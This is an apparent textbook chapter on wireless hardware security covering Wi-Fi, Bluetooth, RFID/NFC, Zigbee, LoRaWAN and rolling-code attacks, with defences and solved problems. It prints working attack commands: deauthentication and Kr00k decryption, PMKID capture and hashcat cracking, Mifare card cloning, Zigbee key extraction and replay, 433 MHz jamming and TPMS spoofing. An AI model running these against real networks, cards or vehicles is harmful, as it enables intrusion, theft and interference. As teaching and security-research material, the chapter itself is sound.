


Chapter 36: Wireless Hardware Security¶
Wireless communications pervade every computing environment, from enterprise Wi-Fi to automotive keyless entry to implantable medical devices. Each wireless standard represents a distinct protocol, frequency band, hardware chipset, and security architecture – many designed years before adversarial radio hardware became widely accessible. Software-Defined Radio (SDR) has fundamentally changed the wireless threat landscape by allowing attackers to receive and transmit arbitrary waveforms with inexpensive commercial hardware (\(< \$25\) for an RTL-SDR). This chapter examines wireless hardware security across the full spectrum: from Wi-Fi chipset vulnerabilities through Bluetooth impersonation, RFID cloning, proprietary IoT protocols, automotive wireless, and spectrum monitoring.
36.1 Wireless Attack Taxonomy¶

36.2 SDR Hardware Platform Architecture¶

| Platform | RX Range | TX Range | BW (MHz) | ADC bits | Interface | Price |
|---|---|---|---|---|---|---|
| RTL-SDR v3 | 500 kHz–1.75 GHz | None | 3.2 | 8 | USB 2.0 | $25 |
| HackRF One | 1–6,000 MHz | 1–6,000 MHz | 20 | 8 | USB 2.0 | $340 |
| LimeSDR Mini 2.0 | 10–3,500 MHz | 10–3,500 MHz | 40 | 12 | USB 3.0 | $180 |
| USRP N210 | DC–6,000 MHz | DC–6,000 MHz | 100 | 14 | GbE | $1,900 |
| USRP X310 | DC–6,000 MHz | DC–6,000 MHz | 160 | 16 | 10GbE | $4,100 |
| Ettus B210 | 70–6,000 MHz | 70–6,000 MHz | 56 | 12 | USB 3.0 | $1,100 |
| BladeRF 2.0 micro | 47–6,000 MHz | 47–6,000 MHz | 56 | 12 | USB 3.0 | $480 |
36.3 Wi-Fi Hardware Security¶
36.3.1 Wi-Fi Chipset Overview¶
Broadcom BCM4389 (Wi-Fi 6E, 802.11ax, 2021): 6 GHz band support (IEEE 802.11ax-2021), 4\(\times\)4 MU-MIMO, 1024-QAM, OFDMA, WPA3-SAE and WPA3-Enterprise (GCMP-256), integrated Bluetooth 5.3 coexistence, fabricated on TSMC 28 nm. Used in: Samsung Galaxy S21+, MacBook Pro (2021).
Intel AX210 (Wi-Fi 6E, 802.11ax, M.2 card): 6 GHz tri-band (2.4 / 5 / 6 GHz), 2.4 Gbps maximum PHY rate, WPA3-SAE, GCMP-256, Intel’s vPro TLS-encrypted connection profile stored in ME (Management Engine) partition, Bluetooth 5.3 coexistence.
Qualcomm FastConnect 6900: Wi-Fi 6E + Bluetooth 5.2 combo, 6 GHz 4\(\times\)4 MIMO, integrated security: WPA3, OWE (Opportunistic Wireless Encryption, RFC 8110), PMF (Protected Management Frames, 802.11w) mandatory.
36.3.2 Broadpwn – CVE-2017-0561¶
Broadpwn (Nitay Artenstein, Black Hat USA 2017): remote code execution in the Broadcom BCM43xx Wi-Fi chipset firmware (affects BCM4354, BCM4358, BCM4359). The Wi-Fi firmware runs a FullMAC WLAN SoC with an ARM Cortex-R4 processor executing custom RTOS code that handles all 802.11 frame processing.
Vulnerability: a heap overflow in the TDLS (Tunneled Direct Link Setup) probe response handler; the chipset processes probe response frames from any nearby AP before association. No user interaction required – an attacker broadcasting malformed 802.11 probe responses can trigger the overflow and achieve RCE on the Broadcom FullMAC firmware.
From the FullMAC firmware, Artenstein pivoted to the host Application Processor (AP) via the SDIO interface that connects the BCM43xx to the host SoC, achieving a Wi-Fi-to-AP full chain exploit.
# Detecting Broadpwn-vulnerable chipsets (Android adb)
$ adb shell cat /proc/bus/usb/devices | grep -i broadcom
$ adb shell getprop ro.wifi.channels
# Patch: Android 2017-07-01 Security Bulletin fixes CVE-2017-0561
# Verification: adb shell getprop ro.build.version.security_patch
# Should show 2017-07-01 or later for patched devices
36.3.3 Kr00k – CVE-2019-15126¶
Kr00k (Eset Research, RSA 2020): affects Broadcom and Cypress Wi-Fi chips (BCM4335, BCM4339, BCM4358, BCM43596, CYW43455, CYW43012, and others). When the client disassociates from an AP, the chip clears the session TK (Temporal Key) to all-zero bytes: TK = 0x00 x16. Before the TK is cleared, a small number of buffered frames are transmitted using the all-zero TK, decryptable by any observer.
Attacker procedure:
-
Send a deauthentication frame (802.11 Mgmt, type 0xC0) to the victim
-
The victim’s chip clears TK and transmits buffered frames with TK=0x00
-
Attacker captures the leaked frames and decrypts with all-zero TK
Over 1 billion affected devices at time of disclosure.
# Kr00k PoC (educational, requires airodump-ng and scapy)
# Step 1: Monitor mode
$ sudo airmon-ng start wlan0
# Step 2: Capture frames from victim
$ sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
# Step 3: Send deauth to trigger TK flush
$ sudo aireplay-ng -0 1 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
# Step 4: Decrypt captured frames using all-zero TK
$ python3 krcok_decrypt.py --bssid AA:BB:CC:DD:EE:FF --tk 000000000000000000000000000000000000000000000000 --pcap capture-01.cap
36.3.4 WPA3 SAE (Dragonfly) and PMKID Attack¶
WPA3-SAE (Simultaneous Authentication of Equals, RFC 7664, IEEE 802.11-2020): Dragonfly key exchange using Elliptic Curve Diffie-Hellman over a password-derived point. Provides forward secrecy: session key not derivable from captured handshake. Resistant to offline dictionary attacks (requires active participation per guess).
WPA2 PMKID attack (Jens Steube / Hashcat team, 2018): No client capture needed. The PMKID is included in EAPOL frame 1 from the AP: \(\text{PMKID} = \text{HMAC-SHA-1-128}(\text{PMK}, \text{"PMK Name"} \| \text{BSSID} \| \text{STA\_MAC})\). Since PMK = PBKDF2-SHA1(password, SSID, 4096, 32), an attacker captures only the PMKID (from a single EAPOL frame) and performs offline dictionary attack.
# WPA2 PMKID attack using hcxdumptool + hashcat (authorised pentest only)
# Step 1: Capture PMKID (no client required)
$ sudo hcxdumptool -i wlan0mon --enable_status=1 -o pmkid.pcapng
# Step 2: Extract PMKID hash from pcapng
$ hcxpcapngtool pmkid.pcapng -o pmkid.hc22000
# Step 3: Crack with hashcat (GPU accelerated)
$ hashcat -m 22000 pmkid.hc22000 rockyou.txt --rules-file best64.rule
# GPU: RTX 4090 = ~1.8 million PMKIDs/second
# rockyou.txt: 14.3 million passwords tested in ~8 seconds on RTX 4090
KRACK (Key Reinstallation Attack, Mathy Vanhoef, CCS 2017): 4-way handshake key reinstallation; if the PTK (Pairwise Transient Key) is reinstalled with a replayed ANonce, the nonce counter resets, enabling TKIP keystream recovery or GTK reinstallation for multicast frames. Patched by mandatory PTK/GTK replay counter tracking in 2017.
36.4 Bluetooth Hardware Security¶
36.4.1 Bluetooth Hardware Chipsets¶
Nordic nRF52840: ARM Cortex-M4F at 64 MHz, 1 MB flash, 256 KB RAM, Bluetooth 5.3 LE + Bluetooth Classic, IEEE 802.15.4 (Thread/Zigbee), NFC-A, USB 2.0 FS, hardware AES-128 ECB/CCM accelerator, ARM CryptoCell-310 for ECC, SHA-256, TRNG. QFN-73 package, 7 mm \(\times\) 7 mm.
TI CC2564B: dual-mode Bluetooth 4.1 Classic + LE, dedicated DSP for baseband processing, ARM Cortex-M0 host interface, integrated PA (+10 dBm), I2C / SPI / UART HCI interface, 2.4 GHz RF, 40 nm LP-CMOS.
Qualcomm QCA6174A: Wi-Fi 5 (802.11ac) + Bluetooth 5.0 combo SoC, 2\(\times\)2 MIMO, MCS0–9, WPA3-SAE support via firmware update, M.2 form factor, used in Lenovo ThinkPad X1 Carbon, Dell XPS 13.
36.4.2 KNOB Attack – CVE-2019-9506¶
KNOB (Key Negotiation Of Bluetooth, Antonioli et al., USENIX 2019): Bluetooth BR/EDR (Classic) negotiates entropy during the LMP (Link Manager Protocol) Feature Request. The specification allows entropy as low as 1 byte (8 bits). An attacker manipulating the entropy negotiation can force both devices to use 1-byte keys, brute-forceable in \(\leq 2^8 = 256\) attempts.
No pairing required – the attacker acts as a MitM between two already-paired devices. Affects all Bluetooth Classic devices before the November 2019 patch cycle.
# KNOB attack conceptual (requires Bluetooth patched firmware)
# LMP Entropy Request message (before authentication):
# HCI command: HCI_Set_Encryption_Key_Size (Bluetooth 4.x -> removed in 5.0+)
# Attacker intercepts LMP_max_encryption_key_size_req and replaces with:
# MAX_KEY_SIZE = 1 (minimum allowed by spec: Bluetooth Core Spec 4.2 vol 2, E, 3.2)
# Both peers accept (spec-compliant) and use 1-byte session key
# Brute force: 256 keys exhausted in milliseconds using standard BT stack
36.4.3 BIAS Attack – CVE-2020-10135¶
BIAS (Bluetooth Impersonation AttackS, Antonioli et al., IEEE S&P 2020): Bluetooth BR/EDR LEGACY (pre-Secure Simple Pairing) authentication is asymmetric: if one device does not support Secure Connections, the legacy authenticator is used. An attacker who knows a victim device’s Bluetooth MAC address can impersonate the victim’s paired master device by:
-
Initiating a connection to the victim as the known MAC
-
Proposing LEGACY authentication (downgrade from SC)
-
Responding to the authentication challenge without knowing the LTK (Long-Term Key) by exploiting an authentication protocol flaw in legacy mode
Result: authenticated session without knowledge of the LTK. Fixed by requiring bidirectional Secure Connections authentication when both devices support it (no downgrade allowed).
36.4.4 BLEEDINGBIT – CVE-2018-16986 / CVE-2018-7080¶
BLEEDINGBIT (Armis, 2018): two vulnerabilities in TI BLE chipsets (CC2640, CC2650, CC2540, CC2541) used in enterprise Cisco, Meraki, and Aruba access points.
CVE-2018-16986: a heap overflow triggered by parsing BLE advertisement packets with over-length data in the BTLE header. A crafted advertisement causes RCE on the TI CC26xx BLE stack firmware.
CVE-2018-7080: an over-the-air update mechanism (“Over-The-Air Download”, OAD) in some AP firmware uses a default password (“ATI-crack-small” in some deployments) and lacks firmware signature verification, allowing arbitrary firmware update.
36.5 RFID and NFC Security¶
36.5.1 Mifare Classic Attack¶
Mifare Classic (NXP, 13.56 MHz, ISO 14443-A): 48-bit proprietary CRYPTO1 stream cipher. CRYPTO1 vulnerabilities:
-
Algebraic attack (Garcia et al., 2008): CRYPTO1 LFSR structure fully reverse-engineered; 48-bit key space exhaustible in seconds on modern hardware.
-
Dark-side attack: partial nonce recovery from error responses.
-
Nested attack: once one sector key is known, derive remaining keys from PRNG state (PRNG is tag-serial-number seeded, fully predictable).
# MFOC (Mifare Classic Offline Cracker) -- recover all sector keys
$ mfoc -O dump.mfd # recover all 16 sector keys, dump card memory
# libnfc + mfcuk (PRNG-based dark-side attack)
$ mfcuk -C -R 0:A -s 250 -S 250 -v 3 # recover sector 0 key A
# Proxmark3 -- Swiss army knife for RFID
$ pm3> hf mf autopwn # fully automated Mifare Classic attack
$ pm3> hf mf dump # dump card contents to file
$ pm3> hf mf restore # restore dump to blank card (card cloning)
36.5.2 NFC Relay Attack¶
NFC relay attack (“ghost-and-leech”): two devices bridge a reader-to-card NFC session over a long-range channel (Bluetooth, WiFi, internet). Ghost device (near reader): emulates the victim card. Leech device (near victim card): queries the victim card. Maximum NFC range: 10–20 cm (ISO 14443); relay effectively extends this to kilometres.
# NFCGate relay (University of Darmstadt, open source)
# Server: bridges ghost <-> leech over TCP
# Ghost (near reader): forwards reader APDU commands to server
# Leech (near card): sends commands to victim card, relays response
# Android app + server-side relay; latency typically 50--200 ms
# Detection: timing-based (ISO 14443-3: FWT = Frame Waiting Time, max 4949 ms)
Defence: UWB (Ultra-Wideband) ranging for payment cards (Mastercard/Visa UWB proposal 2023): range measurement accurate to \(\pm 10\) cm; relay adds \(\geq 1\) ms latency, detectable as anomalous range versus timing correlation.
36.6 Zigbee and IEEE 802.15.4 Security¶
Zigbee (IEEE 802.15.4 PHY, Zigbee Alliance NWK/APS): 2.4 GHz band (16 channels, 5 MHz spacing), O-QPSK modulation, 250 kbps, AES-128-CCM* for link-layer encryption, network key shared across all mesh nodes.
KillerBee framework (River Loop Security): Python framework for IEEE 802.15.4 attacks. Hardware: RZUSBSTICK (Atmel AT86RF230), ApiMote, Sewio RTLS.
# KillerBee Zigbee network key extraction
# Step 1: Sniff channel for unencrypted NWK Key transport
$ zbdump -f capture.pcap -c 15 -d /dev/ttyUSB0 # sniff channel 15
# Step 2: Find network key in a join frame (if network allows insecure join)
$ zbwireshark -f capture.pcap | grep "NWK Key"
# Step 3: Decrypt all traffic with recovered network key
$ zbdecrypt -f capture.pcap -k 1234567890abcdef1234567890abcdef -w decrypted.pcap
# Step 4: Replay attack (inject a captured command frame)
$ zbreplay -f attack_frame.pcap -c 15 -d /dev/ttyUSB0 -n 3
36.7 LoRa and LoRaWAN Security¶
LoRaWAN (LoRa Alliance, TS001 v1.1, 2020): long-range IoT protocol using CSS (Chirp Spread Spectrum) modulation, 863–928 MHz (region-dependent), range up to 15 km.
LoRaWAN v1.1 security keys:
-
NwkKey (128-bit): root network key for OTAA (Over-The-Air Activation)
-
AppKey (128-bit): root application key for OTAA
-
NwkSKey (128-bit): network session key (derived during OTAA join)
-
AppSKey (128-bit): application session key
-
FCntDown (16-bit): downlink frame counter
LoRaWAN replay vulnerability (v1.0 and some v1.1 deployments): If FCntDown validation is disabled or the counter wraps, old downlink frames can be replayed. In v1.0, FCntDown was 16-bit and wrap-around after 65,535 frames could be exploited on long-running deployments. LoRaWAN v1.1 uses a 32-bit counter and mandates validation.
# LoRaWAN packet decode using GNU Radio + gr-lora
# Decode a captured LoRa frame (Wireshark + LoRa dissector)
# Chirpstack server-side: verify FCnt
$ chirpstack-api applications list | jq '.applications[] | .id'
$ curl -s "http://localhost:8080/api/devices/{devEUI}/frames" \
-H "Grpc-Metadata-Authorization: Bearer $TOKEN"
# Check: each frame FCnt must strictly increase; reject if FCnt <= last_seen
36.8 Rolling Code Security – RollJam Attack¶
RollJam (Samy Kamkar, DEF CON 23, 2015): defeats rolling code (KeeLoq, AUT64) keyless entry systems used in car remotes and garage doors.
Protocol: each button press transmits a new pseudo-random code (KeeLoq HOTP). The receiver accepts the next \(N\) valid codes in the rolling window (typically \(N = 3\)).
RollJam attack:
-
Jam the 315 MHz / 433 MHz channel (barrage jammer, +30 dBm on-band) while simultaneously receiving and storing the victim’s first code \(C_1\).
-
Victim presses button again (car didn’t unlock); jam while receiving \(C_2\).
-
Release jammer: replay \(C_1\). Car unlocks. Attacker retains unused \(C_2\).
-
At a later time: replay \(C_2\) (still valid, not yet used by car).
-
Car unlocks without victim’s knowledge.
# RollJam hardware: HackRF One (receiver) + amplifier (jammer)
# GNU Radio flowgraph: FM demod at 433.92 MHz, ASK/OOK decoder
# Detect rolling code capture: OOK decoder (On-Off Keying)
$ hackrf_transfer -r capture.raw -f 433920000 -s 2000000
$ python3 ook_decode.py capture.raw --rate 2000000 --freq 433920000
# Jam simultaneously (requires second radio or switched TX/RX)
$ hackrf_transfer -t /dev/urandom -f 433920000 -s 2000000 -x 47
# NOTE: jamming is illegal without authorisation; research in RF-shielded enclosure only
# Defence: Ultra-Wideband (UWB) ranging (Apple CarKey, BMW Digital Key 3.0)
# UWB CIR (Channel Impulse Response) provides 10 cm positioning accuracy
# Cannot be replayed -- requires physical proximity (< 5 m)
36.9 Automotive Wireless Security¶
36.9.1 TPMS Spoofing¶
Tyre Pressure Monitoring Systems (TPMS, mandatory in US since 2008): 315 MHz or 433.92 MHz FSK/ASK transmission, each sensor broadcasts pressure, temperature, and sensor ID (typically 32-bit fixed ID) every 60–90 seconds.
Spoofing: transmit a crafted TPMS frame with low-pressure value for any valid sensor ID. The dashboard warning activates. Attack requires capturing a valid sensor ID (passive eavesdrop) or bruteforcing the 32-bit ID space.
# TPMS capture using RTL-SDR + rtl_433
$ rtl_433 -f 315M -R 33 -F json # decode Ford TPMS protocol
# Output: {"model":"Ford","id":12345678,"pressure_kPa":241.3,"temperature_C":25}
# TPMS spoof (research/authorised testing only, RF-shielded enclosure)
$ hackrf_transfer -t tpms_low_pressure.raw -f 315000000 -s 2000000 -x 40
36.9.2 Keyless Entry Relay Attack¶
Passive Keyless Entry (PKE): 125 kHz LF challenge from car + 315/433 MHz UHF response from fob. LF range: \(\leq 1\) m. Attack: relay LF challenge to fob location (using amplified LF transmitter), relay UHF response back to car. Commercial relay kits available (\(< \$100\)); relay attack range: up to 100 m.
36.9.3 UWB Ranging (Apple CarKey)¶
Apple CarKey (iPhone 11+, U1 chip, 2020): uses IEEE 802.15.4a Ultra-Wideband for precise ranging (Channel 9, 7.9872 GHz, BPRF mode, 499.2 MHz bandwidth). Time-of-Flight (ToF) measurement: \(d = c \cdot \Delta t / 2\), resolution \(\pm 10\) cm. A relay attack adds \(> 3\) ns propagation delay (\(3~\text{ns} \times c = 90\) cm offset); the CCC Digital Key 3.0 specification rejects range measurements with unexpected delay. BMW, Mercedes, and Hyundai deploy CCC Digital Key 3.0 with UWB ranging as of 2022.
36.10 Spectrum Monitoring Hardware¶
| Platform | Vendor | Range | SFDR (dBc) | Interface | Use Case |
|---|---|---|---|---|---|
| N9030B PSA | Keysight | 3 Hz–50 GHz | 73 | GPIB / USB | Lab reference |
| FSW-43 | Rohde&Schwarz | 2 Hz–43 GHz | 70 | LAN / USB | Field measurement |
| RFeye Node 100-18 | CRFS | 100 MHz–18 GHz | 65 | GbE | Fixed site monitor |
| Signal Hound BB60D | Signal Hound | 9 kHz–6 GHz | 70 | USB 3.0 | Portable RF survey |
| Nuand bladeRF 2.0 | Nuand | 47 MHz–6 GHz | 62 | USB 3.0 | SDR wideband |
| Tektronix RSA507A | Tektronix | 9 kHz–7.5 GHz | 68 | USB 3.0 | DPX real-time |
Universal Radio Hacker (URH, GitHub: jopohl/urh): open-source GUI for protocol reverse engineering. Supports RTL-SDR, HackRF, LimeSDR, USRP via GNU Radio backends. Features: signal demodulation (OOK, FSK, PSK, APSK), bit pattern analysis, fuzzing, and protocol simulation.
# URH command-line interface
$ urh # launch GUI
$ urh-cli --device HackRF --frequency 433920000 \
--sample-rate 2000000 --capture output.complex
# Automated protocol analysis
$ urh-cli --analyze output.complex --modulation FSK --bandwidth 50000
36.11 GNU Radio Protocol Decoding¶
#!/usr/bin/env python3
# GNU Radio: 433 MHz IoT sensor OOK decoder
from gnuradio import gr, blocks, analog, digital, filter
from gnuradio.filter import firdes
class IoT433Receiver(gr.top_block):
def __init__(self, freq=433.92e6, samp_rate=2e6):
super().__init__("IoT 433 MHz Receiver")
# RTL-SDR source
from osmosdr import source as osmosdr_src
self.src = osmosdr_src(args="rtl=0")
self.src.set_center_freq(freq)
self.src.set_sample_rate(samp_rate)
self.src.set_gain(40)
# Low-pass filter (anti-alias, cutoff 100 kHz)
self.lpf = filter.fir_filter_ccf(
1, firdes.low_pass(1, samp_rate, 100e3, 10e3))
# AM demod -> envelope detector
self.mag = blocks.complex_to_mag()
# Binary slicer (threshold = 0.01)
self.slicer = digital.binary_slicer_fb()
# Manchester decoder -> file sink
self.sink = blocks.file_sink(gr.sizeof_char, "/tmp/ook_bits.bin")
self.connect(self.src, self.lpf, self.mag, self.slicer, self.sink)
if __name__ == "__main__":
tb = IoT433Receiver()
tb.start()
input("Press Enter to stop...\n")
tb.stop()
36.12 FPGA Implementation for Wireless Security¶
| Device | LUTs | FFs | BRAMs | DSPs | Fmax (MHz) | Power (mW) |
|---|---|---|---|---|---|---|
| Xilinx Artix-7 XC7A35T (802.15.4 sniffer) | 8,200 | 9,400 | 18 | 16 | 125 | 380 |
| Xilinx ZU9EG (Wi-Fi 6 protocol IDS) | 82,000 | 94,000 | 256 | 512 | 300 | 8,200 |
| Intel Cyclone V GX (BLE monitor) | 11,400 | 13,200 | 32 | 8 | 100 | 520 |
| Intel Agilex F (multi-band SDR IDS) | 44,000 | 52,000 | 128 | 256 | 450 | 6,400 |
| Lattice ECP5-85F (TPMS decoder) | 6,800 | 7,600 | 16 | 0 | 80 | 290 |
| Xilinx KU15P (wideband spectrum mon.) | 120,000 | 142,000 | 384 | 768 | 400 | 15,000 |
| Xilinx Artix-7 XC7A200T (DSSS correlator) | 28,400 | 32,000 | 64 | 128 | 200 | 2,100 |
36.13 ASIC Implementation¶
| Process | Function | Area (mm\(^2\)) | Power (mW) | Freq (MHz) | ECC |
|---|---|---|---|---|---|
| TSMC 28nm CMOS | BCM4389 Wi-Fi 6E SoC | 42.0 | 1200 | 2000 | WPA3 GCM-256 |
| TSMC 28nm LP | nRF52840 BLE + 802.15.4 | 10.0 | 4 | 64 | AES-128 CCM* |
| TSMC 40nm LP | TI CC2640 BLE SoC | 6.5 | 6 | 48 | AES-128 CCM* |
| TSMC 22nm FDX | UWB CCC DK3.0 SoC | 5.2 | 38 | 500 | AES-128 GCM |
| TSMC 16nm FF | Intel AX210 Wi-Fi 6E | 58.0 | 2800 | 2400 | WPA3 SAE |
| TSMC 28nm | LoRa SX1276 SoC | 4.0 | 10 | 32 | AES-128 CTR |
| Samsung 14nm | Qualcomm FastConnect 6900 | 78.0 | 3200 | 2500 | WPA3 GCMP-256 |
36.14 Commercial and Open-Source Solutions¶
| Product / Tool | Vendor | Type | Notes |
|---|---|---|---|
| Kismet WIDS | Mike Kershaw | Open-source | Wi-Fi / BT / Zigbee IDS |
| Wireshark + TShark | Wireshark.org | Open-source | Protocol analyser, 802.11 decryption |
| Aircrack-ng suite | aircrack-ng.org | Open-source | WPA2/WPA3 pentest: airodump, aireplay |
| hcxdumptool + hashcat | ZerBea + hashcat.net | Open-source | PMKID capture + GPU WPA2 cracking |
| Universal Radio Hacker | jopohl.de | Open-source | IoT protocol reverse engineering |
| GNU Radio | gnuradio.org | Open-source | SDR signal processing framework |
| gr-lora | BastilleRes. | Open-source | GNU Radio LoRa/LoRaWAN decoder |
| gr-ieee802154 | GNU Radio | Open-source | IEEE 802.15.4 Zigbee GNU Radio block |
| KillerBee | River Loop | Open-source | IEEE 802.15.4 Zigbee attack toolkit |
| Proxmark3 (RDV4) | Proxmark.org | Open-source | RFID/NFC attack platform, CRYPTO1 |
| NFCGate | TU Darmstadt | Open-source | Android NFC relay tool |
| libnfc + MFOC | nfc-tools.org | Open-source | Mifare Classic key recovery |
| Scapy | secdev.org | Open-source | Packet craft: 802.11, BLE, ZigBee |
| Bettercap | bettercap.org | Open-source | Network/WiFi/BLE MitM, caplets |
| rtl_433 | merbanan.github | Open-source | 433/868 MHz IoT protocol decoder |
| RTL-SDR v3 | rtl-sdr.com | Commercial | DVB-T dongle as SDR, R820T2 tuner |
| HackRF One | Great Scott Gadgets | Commercial | 1–6 GHz TX/RX SDR, 20 MHz BW |
| LimeSDR Mini 2.0 | Lime Microsystems | Commercial | 10–3500 MHz, 12-bit ADC, USB 3 |
| USRP N210 | Ettus / NI | Commercial | DC–6 GHz, 100 MHz BW, GbE |
| Ubertooth One | Great Scott Gadgets | Commercial | Bluetooth 2.4 GHz sniffer / TX |
| ESP32 Wi-Fi | Espressif | Commercial | Wi-Fi 4 + BT5 SoC, JTAG debug |
| Pwnagotchi | evilsocket | Open-source | Pi Zero W WPA handshake capturer |
| WAIDPS (Wireless IDPS) | Various | Open-source | Wireless intrusion detection system |
| Cisco Meraki MR | Cisco | Commercial | Wi-Fi AP with integrated WIPS |
| Ruckus Cloudpath | Ruckus (CommScope) | Commercial | Enterprise Wi-Fi security + EAP-TLS |
| Bastille IoT Security | Bastille Networks | Commercial | Wireless device detection, 60 MHz–6 GHz |
| CRFS RFeye Node | CRFS | Commercial | 9 kHz–18 GHz fixed spectrum sensor |
36.15 Solved Problems¶
Solved Problem: WPA2 PMKID Cracking Time Estimation
An attacker captures a WPA2 PMKID from a corporate Wi-Fi network. The network uses the SSID “CorpWifi” (8 characters) and the password is drawn from a dictionary of 10 million common passwords. The attacker uses an NVIDIA RTX 4090 GPU running hashcat at \(1.8 \times 10^6\) PMKID trials per second (mode -m 22000, PBKDF2-SHA1 rate). (a) Calculate the time to exhaust the full dictionary. (b) If the password is a random 12-character alphanumeric string, calculate the brute-force time.
Solution: (a) Dictionary attack time: Dictionary size: \(10^7\) passwords. Hashcat rate: \(1.8 \times 10^6\) PMKID/s. Time: \(T = 10^7 / (1.8 \times 10^6) = 5.56\) seconds. The 10 million common password dictionary is exhausted in under 6 seconds. With rules (best64.rule: 77 rules): \(10^7 \times 77 = 7.7 \times 10^8\) candidates. Time with rules: \(7.7 \times 10^8 / 1.8 \times 10^6 = 428\) seconds \(\approx 7\) minutes.
(b) Brute-force time for 12-char alphanumeric: Character set: 62 characters (a-z + A-Z + 0-9). Keyspace: \(62^{12} = 3.226 \times 10^{21}\) passwords. At \(1.8 \times 10^6\) trials/second: \(T = 3.226 \times 10^{21} / 1.8 \times 10^6 = 1.79 \times 10^{15}\) seconds. \(= 1.79 \times 10^{15} / (3.15 \times 10^7) \approx 5.7 \times 10^7\) years. Practically infeasible. Conclusion: use WPA3-SAE (forward secrecy, no offline PMKID attack), minimum 12-character random password for WPA2.
Solved Problem: Kr00k CVE-2019-15126 Traffic Leakage Calculation
A Broadcom BCM4358 chip buffers an average of 3 MSDU (MAC Service Data Units) before the TK is cleared on disassociation. Each MSDU is 1500 bytes (maximum). An attacker triggers Kr00k 10 times per session. (a) How many bytes of plaintext traffic are leaked per session? (b) If the victim is browsing HTTPS, what is the security impact? (c) What is the Wi-Fi frame format field that allows decryption?
Solution: (a) Bytes leaked per session: Per Kr00k trigger: 3 MSDUs \(\times\) 1500 bytes = 4500 bytes. Per session (10 triggers): \(4500 \times 10 = 45,000\) bytes = 45 KB.
(b) HTTPS security impact: HTTPS traffic is TLS-encrypted at the application layer. Even with Wi-Fi decryption via all-zero TK, the attacker sees only the TLS ciphertext. The TLS session key is negotiated over an encrypted channel (TLS 1.3 with ECDHE); Kr00k cannot recover TLS session keys. Impact on HTTPS: minimal – content remains protected by TLS. Impact on unencrypted HTTP or DNS (port 53, UDP): fully exposed. A 45 KB HTTP response (e.g., a web page without HTTPS) would be fully decryptable.
(c) Decryption field: IEEE 802.11 CCMP frame header includes the PN (Packet Number, 48-bit nonce) in plaintext: PN0, PN1, Rsvd, KeyID, PN2, PN3, PN4, PN5 (8 bytes). Decryption uses AES-128-CCM with TK=0x00\(\times\)16, PN from the frame header, and A2 (source MAC) as the nonce components. The PN is broadcast in the frame without encryption, so with TK=0 the attacker can directly compute the keystream and decrypt.
Solved Problem: RollJam Rolling Code Window Analysis
A KeeLoq keyless entry system uses a rolling code with a 32-bit code space. The receiver accepts codes within a forward window of \(W = 256\) codes past the last accepted code. The RollJam attack stores code \(C_n\) while the victim believes code \(C_{n-1}\) was rejected (car did not open). (a) Under what condition does the stored code \(C_n\) become invalid? (b) How many button presses must the victim make before \(C_n\) is no longer valid? (c) Propose a hardware countermeasure that defeats RollJam without changing the radio protocol.
Solution: (a) Invalidity condition: The receiver accepts a code if it is within the window \([C_{last+1}, C_{last+W}]\). After the attacker replays \(C_n\) (car accepts), the receiver’s last accepted code advances to \(C_n\). The stored extra code \(C_{n+1}\) (if the attacker captured more) is valid if it is within \([C_{n+1}, C_n + 256]\). The stored \(C_n\) becomes invalid if the victim presses the button more than \(W = 256\) times after the attacker’s replay.
(b) Button presses required for \(C_n\) invalidity: If the attacker replays \(C_n\), the window advances to \([C_{n+1}, C_{n+256}]\). If the victim presses the button 257 times (generating \(C_{n+257}\)), the receiver window becomes \([C_{n+258}, C_{n+513}]\). The attacker’s stored extra code (if any) would need to be \(> C_{n+257}\); the originally stolen \(C_n\) is already replayed (invalid, already accepted). Without additional stored codes, 0 more presses needed – the attack is already complete. The danger is that the attacker has \(C_{n+1}\) stored (captured second press), which remains valid until the victim presses 256 more times.
(c) Hardware countermeasure: Time-based code validity: timestamp each rolling code with a signed Unix timestamp from the fob’s RTC (Real-Time Clock, e.g., DS3231 with \(\pm 2\) ppm accuracy). The car receiver rejects any code with timestamp older than 30 seconds. Since the RollJam attack stores \(C_n\) for an indefinite period, the 30-second window invalidates the stored code. Hardware required in fob: RTC IC + SHA-256 HMAC engine + 32-byte key storage (EEPROM). This approach is used in modern UHF remote implementations (e.g., Continental rolling code with timestamp).
Solved Problem: LoRaWAN AppSKey Derivation and Replay Vulnerability
A LoRaWAN v1.0 device uses ABP (Activation By Personalisation) with a static 32-bit DevAddr and fixed NwkSKey / AppSKey. The device sends a sensor reading every 60 seconds. An attacker captures 10 frames. (a) Why is ABP more vulnerable to replay than OTAA? (b) Calculate how long it takes for FCnt (16-bit, LoRaWAN v1.0) to wrap around. (c) What cryptographic property does FCnt wrap-around violate?
Solution: (a) ABP vs. OTAA security: OTAA generates fresh NwkSKey and AppSKey for each join, using a random DevNonce and JoinNonce to prevent key reuse. If the device is reset, it executes a new join and receives new session keys. ABP uses static, pre-provisioned keys (NwkSKey, AppSKey) that never change. If the NwkSKey/AppSKey are extracted from the device (e.g., via JTAG), all past and future traffic can be decrypted. Additionally, the FCnt is stored in RAM; if the device resets (power cycle), the FCnt may reset to 0, reusing the same (key, nonce) pair – a critical cryptographic failure for AES-128-CTR-based encryption.
(b) FCnt wrap-around time: 16-bit FCnt: maximum value 65,535. Frame rate: 1 per 60 seconds. Time to wrap: \(65,535 \times 60 = 3,932,100\) seconds \(= 45.5\) days. A device operating continuously wraps the FCnt counter every 45 days.
